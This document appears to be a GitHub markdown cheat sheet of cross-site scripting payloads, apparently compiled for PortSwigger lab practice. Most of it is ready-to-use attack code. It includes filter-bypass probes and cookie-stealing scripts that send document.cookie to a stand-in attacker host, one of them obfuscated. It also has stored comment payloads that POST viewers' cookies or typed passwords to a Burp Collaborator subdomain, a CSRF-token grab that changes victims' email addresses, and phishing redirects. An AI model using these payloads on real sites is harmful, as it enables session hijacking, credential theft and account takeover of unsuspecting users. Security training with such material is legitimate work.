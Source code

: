 ## XSS

![XSS-variants](https://github.com/user-attachments/assets/0f908703-6b48-4424-acb2-7487e776765d)

### Basics:
```
<§§>                                 --//https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
<script>alert(1)</script>
<custom-tag> or <xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
http://foo?&apos;-alert(1)-&apos;    --//write into the "website input" (comments)
javascript:alert(1)
"onmouseover="alert(1)
\'-alert(1)//
<svg/onload=prompt(1337);>
<><img src=1 onerror=alert(1)>       --// the website uses the JavaScript replace() function to encode angle brackets
\"-alert(1)}//                       --// the string is reflected in a JSON response called search-results
{{$on.constructor('alert(1)')()}}    --// if your random string is enclosed in an ng-app directive.
```

### Obtain cookies or tokens:

```
fetch('https://attacker-site.com/steal-cookies?cookie=' + encodeURIComponent(document.cookie));

<img src=x onerror="fetch('https://attacker-site.com/?c='+document.cookie)">

<script>eval(String.fromCharCode(102,101,116,99,104,40,39,104...));</script>

<script>(()=>{fetch('https://attacker-site.com/?c='+document.cookie)})()</script>

<script src="https://attacker-site.com/malicious.js"></script> //import from another site

let img = new Image();
img.src = 'https://attacker-site.com/log?cookie=' + encodeURIComponent(document.cookie);

navigator.sendBeacon('https://attacker-site.com/steal-cookies', 'cookie=' + encodeURIComponent(document.cookie));

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```
--------------------------------------------
#### post this in the comment section - it will send all cookies for all viewers this comment:
```
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
### XSS redirect to another site options:
```
--------------------------------------------
#### post this payload in the blog comment section - 
script will make anyone who views the comment issue a POST request containing their username and password to your subdomain of the public Collaborator server:
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
--------------------------------------------
#### Submit the following payload in the comment section
This will make anyone who views the comment issue a POST request to change their email address to test@test.com:
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
--------------------------------------------
### XSS to redirect or view another site on the target site:
```
<script>window.location.href = "https://phishing-site.com";</script>

<script>window.location.replace("https://phishing-site.com");</script>

<script>window.location.assign("https://phishing-site.com");</script>

<meta http-equiv="refresh" content="0;url=https://phishing-site.com">

<body onload="window.location.href='https://phishing-site.com'">

<a href="#" onclick="window.location.href='https://phishing-site.com'">Click here</a>

<iframe src="https://phishing-site.com" style="display:none;"></iframe>
```
